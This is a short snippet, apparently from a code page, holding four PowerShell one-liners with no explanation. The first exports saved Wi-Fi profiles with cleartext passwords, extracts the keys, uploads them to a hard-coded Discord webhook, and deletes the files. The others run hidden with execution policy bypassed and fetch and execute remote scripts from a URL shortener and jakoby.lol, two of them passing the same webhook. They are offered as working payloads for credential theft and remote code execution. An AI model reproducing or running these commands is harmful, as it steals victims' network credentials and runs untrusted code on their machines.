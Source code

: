 weeefy:

cd $env:tmp;netsh wlan export profile key=clear;Select-String -Path Wi*.xml -Pattern 'keyMa*' > Wi-Fi;curl.exe -F "f=@Wi-Fi" "https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc";rm "Wi-*"


key
powershell -NoP -Ep Bypass -W H -C irm https://shorturl.at/nfap5 | iex


powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc';$db='';irm jakoby.lol/9nb | iex


powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc';irm https://jakoby.lol/hgw | iex



